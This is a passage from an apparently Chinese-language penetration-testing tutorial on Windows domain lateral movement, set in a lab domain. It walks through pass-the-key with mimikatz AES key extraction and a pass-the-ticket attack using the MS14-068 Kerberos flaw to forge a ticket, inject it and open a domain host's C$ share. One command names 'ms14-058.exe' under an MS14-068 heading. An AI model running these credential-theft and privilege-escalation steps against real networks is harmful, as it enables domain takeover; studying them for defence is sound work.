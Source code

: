 PTK aes256传递

打补丁后的工作组及域连接:

sekurlsa::ekeys #获取aes

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUPLAWianZyKjMUMCyGrRoAl1J02Dg3ppQ28jo0UrqzfroUw5pBYBayOw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdURBt8SffmyOWpjWFHTQXCXict13aWdSmHJe96zLVWIRRTUCBvRnJjzxA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUib25UXaURCnKwrsOIHxlqaruYa9RTuckrMZvjbQiaGdCML7oIKKibnk6g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



弹出一个cmd窗口,尝试连接域内主机

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUqBldzmrUfymXIak4araMaibiaYkKVLSMO8oTmiaeXza2TyhLp9o35DR6w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



域横向移动PTT传递-MS14068&kekeo&local

第一种利用漏洞:

能实现普通用户直接获取域控system权限

\#ms14-068 powershell执行

  1.查看当前sid whoami/user

  2.mimikatz #kerberos::purge

//清空当前机器中所有凭证,如果有域成员凭证会影响凭证伪造

mimikatz# kerberos::list //查看当前机器凭证

mimikatz# kerberos::ptc 票据文件 //将票据注入到内存中

  3.利用ms14-068生成TGT数据

ms14-058.exe 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUCpWibyvdcibvxGsbcfic0bxMGm7rEwOASMkVOQ2V77wssWia2EqsOfhE7Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

4.票据注入内存

mimikatz.exe "kerberos::ptc TGT_mary@god.org.ccache" exit

5.查看凭证列表 klist

6.利用 dir \\192.168.3.21\C$



域内目标机

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUIpnuicnEiarWopZZxR4HIQceKQ2iaGkSeH7q8H8lQ2WDsKzQLXwFx1Myw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdU2c1Xtomh1zTWcSiaT1zsdQrkbXx09SrtXoLjPd22HF2ibO3gHLW9nZibg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
